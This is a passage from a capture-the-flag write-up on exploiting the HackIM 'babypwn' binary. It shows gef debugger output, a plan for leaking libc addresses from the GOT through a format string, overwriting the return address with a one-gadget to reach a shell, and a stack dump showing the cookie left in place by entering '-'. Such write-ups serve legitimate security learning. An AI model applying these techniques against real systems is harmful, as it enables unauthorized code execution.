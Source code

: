 ```
gef➤  x/i 0x00007ffff7b260f0
   0x7ffff7b260f0 <__stack_chk_fail>:   lea    rdi,[rip+0x7638a]        # 0x7ffff7b9c481
gef➤  x/i 0x00007ffff7a836b0
   0x7ffff7a836b0 <setbuf>:     mov    edx,0x2000
gef➤
```

As can be seen, each of these offsets in the GOT hold libc addresses of certain functions. If I can leak these addresses from the server, I should be able to discover which version of libc they are using and then find the one-gadget from that. Also, I am able to use these offsets to leak libc addresses because the binary is loaded to a set address in memory (thank god for no PIE).

## Game Plan

At this point I had a plan of attack:

* Use the coins as addresses in the global offset table and use the format string to leak to libc values.
* Overwrite the return address with the address of main to jump back to the beginning and allow further input.
* Use the appropriate libc to find a one-gadget and overwrite the return address with this value.
* Return to a shell and get the flag!

My problem was the cookie. Even if I leak it with the format string it would be too late. 

## The Missing Link

After the CTF ended the following night I found out something interesting. 

```
gef➤  r
Starting program: /home/vagrant/pwning/hackim/babypwn/challenge
Create a tressure box?
y
name: noop
How many coins do you have?
255
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 - - 25 26
q
```


```
gef➤  telescope $rsp 20
0x00007fffffffe380│+0x00: 0xffff000000000001     ← $rsp
0x00007fffffffe388│+0x08: 0x0000000000602010  →  "Tressure Box: noop created!"
0x00007fffffffe390│+0x10: 0x0000000200000001
0x00007fffffffe398│+0x18: 0x0000000400000003
0x00007fffffffe3a0│+0x20: 0x0000000600000005
0x00007fffffffe3a8│+0x28: 0x0000000800000007
0x00007fffffffe3b0│+0x30: 0x0000000a00000009
0x00007fffffffe3b8│+0x38: 0x0000000c0000000b
0x00007fffffffe3c0│+0x40: 0x0000000e0000000d
0x00007fffffffe3c8│+0x48: 0x000000100000000f
0x00007fffffffe3d0│+0x50: 0x0000001200000011
0x00007fffffffe3d8│+0x58: 0x0000001400000013
0x00007fffffffe3e0│+0x60: 0x0000001600000015
0x00007fffffffe3e8│+0x68: 0x2e3e5db4f6470000
0x00007fffffffe3f0│+0x70: 0x0000001a00000019     ← $rbp
0x00007fffffffe3f8│+0x78: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax
0x00007fffffffe400│+0x80: 0x0000000000000001
0x00007fffffffe408│+0x88: 0x00007fffffffe4d8  →  0x00007fffffffe729  →  "/home/vagrant/pwning/hackim/babypwn/challenge"
0x00007fffffffe410│+0x90: 0x00000001f7ffcca0
0x00007fffffffe418│+0x98: 0x0000000000400806  →  <main+0> push rbp
```